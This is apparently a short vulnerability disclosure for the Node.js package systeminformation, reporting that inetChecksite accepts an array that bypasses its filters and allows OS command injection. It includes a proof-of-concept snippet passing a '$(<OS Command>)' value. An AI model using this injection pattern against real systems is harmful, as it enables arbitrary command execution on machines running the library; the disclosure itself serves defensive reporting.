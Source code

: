 # Description

`systeminformation` is vulnerable to `Command Injection` vulnerability.

It is possible to send an array containing OS commands, which bypass the filters.  

# Proof of Concept

1. Create a Javascript file with the content below:

```javascript
const si = require('systeminformation');
const command = "$(<OS Command>)";
si.inetChecksite([command]);
```

2. Edit the constant `command` with a desired OS command.

3. Run it.
